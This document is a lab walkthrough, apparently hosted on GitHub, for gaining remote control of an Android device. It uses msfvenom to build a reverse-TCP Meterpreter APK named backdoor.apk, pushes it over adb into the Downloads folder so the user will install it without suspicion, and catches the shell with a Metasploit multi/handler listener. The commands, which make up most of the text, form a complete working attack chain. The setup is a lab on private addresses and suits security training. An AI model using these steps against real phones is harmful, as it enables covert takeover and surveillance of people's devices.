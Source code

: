 # Malicious APK

In this step, we will generate a malicious APK using the msfvenom tool.
`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -o backdoor.apk`

The command above uses `msfvenom` to create a malicious payload for an Android device. This tool merges the functionalities of two older Metasploit utilities, `msfpayload` and `msfencode`.

- `-p android/meterpreter/reverse_tcp`
1. "-p" specifies the payload type.
2. "android/meterpreter/reverse_tcp" means the payload is for an Android device, and it creates a reverse TCP connection.

With a reverse TCP connection, the target (Android device) will connect back to the attacker's system (instead of the attacker directly accessing the target).

- `LHOST=192.168.1.100`

This is the local host IP address (the attacker's machine) that the target will connect back to.
- `LPORT=5555`

This is the local port on the attacker's machine that will listen for the connection. Port 5555 is used here.

- `-o backdoor.apk`

The -o option specifies the output file. Here, the payload will be embedded in an Android APK file named backdoor.apk.
# Adb (Android Debug Bridge)
To transfer the file, we first need to connect to the Android device. In our case, the device's IP address is 172.17.0.2.

Use the following command to connect:
`adb connect 172.17.0.2`

There's no need to specify the port, as ADB will assign it automatically. If the connection is successful, the output will display: "connected to 172.17.0.2:5555"

Now, we'll push the malicious APK file to the device using this command:
`adb push /home/ubuntu-user/backdoor.apk /sdcard/Download`

This command uses ADB to transfer the backdoor.apk from the specified directory on our machine to the /sdcard/Download directory on the Android device.

The /sdcard/Download directory is commonly used and familiar to users, making the APK easily accessible. This increases the likelihood that the user will open and install it without suspicion.
# Setting Up Metasploit Listener
we will configure Metasploit to listen for incoming connections. Let's begin by launching the Metasploit console with the following command:
`msfconsole`

This command configures Metasploit to use the multi-handler exploit, which is designed to manage incoming sessions from various payloads, allowing us to interact with the compromised device:
`use exploit/multi/handler`

This command sets the payload to Android Meterpreter reverse TCP, which enables the attacker to receive a reverse shell connection from the compromised Android device, allowing remote control and interaction with it:
`set payload android/meterpreter/reverse_tcp`

By running the following command:
`show options`

It requires a lhost (local host ip address) and lport (local port).

This command specifies the local host IP address (LHOST) that the target device will connect back to, ensuring the reverse shell targets the correct machine.
`set lhost 192.168.1.100`

This command sets the local port (LPORT) on the attacker's machine that will listen for incoming connections from the compromised device, facilitating the establishment of the reverse shell.
`set lport 5555`

Finally launch the exploit: `exploit`
# Deploying the APK and Verifying Access
While Metasploit is waiting for the connection, switch back to the web browser where the Android device is located.

Hold the right-click on your mouse and swipe up to open the menu. Click "Files."

In the Files app, click the three lines at the top-left corner to open the side menu. Navigate to Downloads, where you'll find the APK file we pushed earlier.

Click on the APK file and follow the prompts.

First one continue,

Second one install,

Third one open,

The last prompt will redirect you to the MainActivity app. Press continue on the last prompt.

Return to the terminal. You should see a new connection from 172.17.0.2 (the Android device).

To confirm that you've gained access to the Android device, run the following command:

sysinfo

At this point, you have successfully deployed the malicious APK, gained access to the Android device, and verified the connection using Metasploit. This completes the lab, demonstrating the entire process from payload creation to remote access.


